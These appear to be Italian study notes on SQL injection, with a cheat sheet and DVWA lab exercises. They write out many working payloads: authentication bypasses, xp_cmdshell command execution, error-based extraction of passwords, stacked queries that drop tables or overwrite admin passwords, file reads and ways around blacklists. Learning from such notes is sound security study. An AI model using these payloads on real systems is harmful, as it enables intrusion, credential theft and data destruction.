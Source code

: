 ## SQL injection

- http://www.securiteam.com/securityreviews/5DP0N1P76E.html
- https://en.wikipedia.org/wiki/SQL_injection
- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- https://www.owasp.org/index.php/SQL_Injection
- http://bobby-tables.com/

TODO prova sqlmap

Il seguente codice è vulnerabile a SQLI.

```
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```

Un primo test per verificare la vulnerabilità è usare `x' or 1=1--`.
`--` è un commento.
Se il commento non aiuta, posso usare `' or 'a'='a`.
Altre varianti sono`' or 1=1–`, `' or 1=1–`, `or 1=1–`, `' or 'a'='a`, `' or 'a'='a`, `') or ('a'='a`.

Su sistemi Windows è possibile lanciare comandi usando `master..xp_cmdshell`.
Un esempio è `'; exec master..xp_cmdshell 'ping 10.10.1.2'--`.
Se l'apice singolo (`'`) non ha effetto prova a usare il doppio apice (`''`).
Posso scrivere l'output di una query in una pagina html usando `master..sp_makewebtask`.
Un esempio è `'; exec master..makewebtask '\10.10.1.3shareoutput.html', 'select * from information_schema.tables'`.

Posso usare i messaggi di errore per ottenere informazioni sul database.
Genero un errore se provo a fare l'union di un intero con una stringa.
Come stringa scelgo il nome di una tabella, estraibile con `select top 1 table_name from information_schema.tables`.
Eseguo l'injection con `10 union select top 1 table_name from information_schema.tables--`.
Un possibile messaggio di errore è il seguente:

```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'table1' to a column of data type int.
/index.asp, line 5
```

In questo modo ottengo il nome della prima tabella del database (`table1`).
Posso ottenere il nome della tabella successiva eseguendo l'injection con `10 union select top 1 table_name from information_schema.tables not in ('table1')--`.
Oppure fare una ricerca basata sul nome eseguendo l'injection con `10 union select top 1 table_name from information_schema.tables LIKE '%login%25'--`.

Conoscendo il nome di una tabella posso anche estrarre i nomi delle colonne.
Eseguo l'injection `10 union select top 1 column_name from information_schema.columns where table_name='admin_login'--`.
Una volta ottenuti i nomi di tabelle e relative colonne posso interrogare il database per estrarre informazioni utili.

I casi precedenti presuppongono che l'output della query sia una stringa non numerica.
Per estrarre risultati numerici posso eseguire l'injection con `10 union select top 1 convert(int, password%2b%20morpheus') from admin_login where login_name='trinity'--`.
`%2b` è la codifica ascii di `+`.
Concateno il valore della colonna password alla stringa ` morphes`, che all'esecuzione `convert` causerà un errore.
Un possibile messaggio di errore è il seguente:

```
Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value ‘31173 morpheus’ to a column of data type int.
/index.asp, line 5
```

Posso alterare il contenuto del database eseguendo l'injection `10; update 'admin_login' set 'password' = 'password2' where login_name='admin'--` oppure `10; insert into 'admin_login' ('login_id','login_name',,'password') values (666, 'admin2', 'password2')--`.

---

Commentare il resto della query: `--`, `#`  
Injection: `admin' --`  
Query risultante: `select * from members where username = 'admin' --' and password = 'password'`

Commentare parte della query: `/* c */`  
Injection: `drop /* c */ tablename`, `dr/* bypass blacklisting */op/* c */ tablename`, `select/*avoid spaces*/password/**/from/**/members`

Commentare parte della query: `/*! c */`  
Injection: `select /*! 32302 1/0, */ 1 from tablename` (in mysql se la versone è superiore a 3.23.02 viene lanciata un'eccezione divison by 0)

In mysql superiore a 3.23.02 `10` e `/*! 32302 10 */` sono equivalenti

Eseguire stacked query in una transazione: `;`  
Injection: `; drop tablename1; drop tablename2 --`  
Non tutti i linguaggi/database supportano stacked query in una transazione

Uso di interi: `0x<hexnumber>`, `0x<hexnumber> + 0x<hexnumber>`

Concatenazione stringhe: `+`, `||`  
Injection: `concat(char(75), char(76), char(77))`, `concat(char(75) + char(76) + char(77))`, `concat(chr(75)||chr(76)||chr(77))`, `concat(CHaR(75)||CHaR(76)||CHaR(77))` (in base al database generano tutte 'KLM')  
Injection: `load_file(0x633A5C626F6F742E696E69)` (carica il contenuto di `c:\boot.ini`)  
In mysql in ansi mode meglio usare `concat()`

<!-- continue https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections -->

## SQL injection - Low

```
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

Exploit:

- inietta `' or 'a' = 'a`

## SQL injection - Medium

```
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```

mysqli::real_escape_string -- mysqli::escape_string -- mysqli_real_escape_string — Escapes special characters in a string for use in an SQL statement, taking into account the current charset of the connection  
Characters encoded are NUL (ASCII 0), \\n, \\r, \\, ', ", and Control-Z. 

Exploit:

- inietta `1 or 1=1`

## SQL injection - High

```
// Get input
$id = $_SESSION[ 'id' ];

// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

Exploit: non sfruttabile

